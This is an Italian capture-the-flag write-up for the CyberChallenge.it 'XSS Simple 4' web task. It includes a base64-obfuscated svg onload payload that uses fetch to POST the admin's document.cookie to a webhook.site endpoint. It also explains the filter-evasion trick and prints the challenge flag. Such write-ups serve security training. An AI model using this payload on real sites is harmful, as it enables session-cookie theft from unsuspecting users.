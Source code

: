 # Writeup: WS_3.04 - XSS Simple 4

## Overview
- **Categoria**: Web  
- **Autore**: bonaff  
- **Difficoltà**: 461  
- **Stato**: Up (last checked: 12 minutes ago)  
- **URL**: [http://xss4.challs.cyberchallenge.it/](http://xss4.challs.cyberchallenge.it/)

## Descrizione 📝
Siamo al quarto livello della serie **XSS Simple**. Come nelle challenge precedenti, dobbiamo sfruttare un form di “report” che l’admin visiterà. Il server tenta di filtrare e/o bloccare payload più comuni, ma possiamo ancora eseguire codice JavaScript sfruttando tecniche come:

- Tag `<svg>` con `onload`.
- Base64 + `eval(atob())` per aggirare i filtri su keyword JavaScript.

## Soluzione 🎯

### 1. Costruzione del Payload
Un esempio di payload “pulito” potrebbe essere:
```html
<svg onload="eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2JlZjVkMzIxLTUyYTMtNGEzZC04NzQxLTFmYTk1MGZhNTI3MCcsIHttZXRob2Q6ICdQT1NUJywgYm9keTogZG9jdW1lbnQuY29va2llfSk='))">
</svg>
```
- **`eval(atob(...))`**: Decodifica in Base64 il codice e lo esegue.
- **Codice Decodificato**: Esegue `fetch('https://webhook.site/bef5d321-52a3-4a3d-8741-1fa950fa5270', {method:'POST', body:document.cookie})`.

### 2. Inserimento e Segnalazione
Dopo aver generato il payload, costruiamo un URL di “report” (es. `?html=<svg...>`) e lo inviamo tramite il form presente nel sito. L’admin, aprendo il link, eseguirà lo script.

### 3. Raccolta della Flag
Sul nostro endpoint (Webhook.site), riceviamo il cookie dell’admin, contenente la flag:

## Flag 🏁
```
CCIT{8e498129556696f9a5c9ab1707464624}
```

## Lezioni Apprese 📚
1. **XSS Bypass Avanzato**: Usare `<svg onload>` è un vettore comune per eseguire JavaScript senza `<script>`.
2. **Base64 Evita Filtri**: `eval(atob(...))` è un metodo collaudato per superare blacklist di keyword.
3. **Importanza dei Filtri Lato Server**: Se non si sanitizza correttamente il contenuto, un attaccante può sempre trovare tecniche per eseguire JS arbitrario.

## Tools Utilizzati 🛠️
- **Browser**: Per testare l’URL e generare il payload.
- **Webhook.site**: Per ricevere la richiesta con il cookie dell’admin.
- **Base64 Encoder**: Per convertire il codice JS in Base64.

---

*Writeup by Luca Crippa - Last Updated: 2024*
